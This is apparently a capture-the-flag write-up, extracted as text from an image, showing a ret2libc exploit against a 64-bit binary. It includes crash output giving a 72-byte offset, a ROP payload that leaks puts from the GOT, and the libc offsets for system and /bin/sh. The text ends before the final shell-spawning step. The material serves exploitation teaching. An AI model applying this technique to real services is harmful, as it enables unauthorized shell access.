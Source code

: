 **output**

```python
[+] Starting local process './ld-2.35.so': pid 10845
[*] Process './ld-2.35.so' stopped with exit code -11 (SIGSEGV) (pid 10845)
[+] Parsing corefile...: Done
[*] '/home/kali/Downloads/core.10845'
    Arch:      amd64-64-little
    RIP:       0x401291
    RSP:       0x7ffffcb64e58
    Exe:       '/home/kali/Downloads/ld-2.35.so' (0x7fd170151000)
    Fault:     0x6161617461616173
[!] cyclic_find() expected a 4-byte subsequence, you gave b'saaataaa'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
Offset: 72
                                          
```

## Plan in 3 Steps

1. **Leak an Address**: Trick the program into printing a memory address from libc (a library it uses).
2. **Find Key Addresses**: Use the leaked address to locate system (runs commands) and /bin/sh (a shell).
3. **Get a Shell**: Run system("/bin/sh") to open a shell and grab the flag.

---

## Step-by-Step Exploit

### 1. Leak the Address

- Send a payload to make the program print the address of puts (a function in libc).
- **Payload**:
    - 72 bytes of junk (As).
    - Special addresses to call puts and return to main.

```python
payload = b"A" * 72
payload += b"\xbd\x12\x40\x00\x00\x00\x00\x00"  *# pop rdi; ret*
payload += b"\x18\x40\x40\x00\x00\x00\x00\x00"  *# puts@GOT*
payload += b"\x90\x10\x40\x00\x00\x00\x00\x00"  *# puts@PLT*
payload += b"\x92\x12\x40\x00\x00\x00\x00\x00"  *# main*
```

- Result: You get an address like 0x7f1234567e50.

### 2. Calculate Addresses

- Subtract 0x80e50 (the offset of puts in libc) from the leaked address to find the libc base.
- Add offsets to find:
    - system: base + 0x50d70
    - /bin/sh: base + 0x1d8678
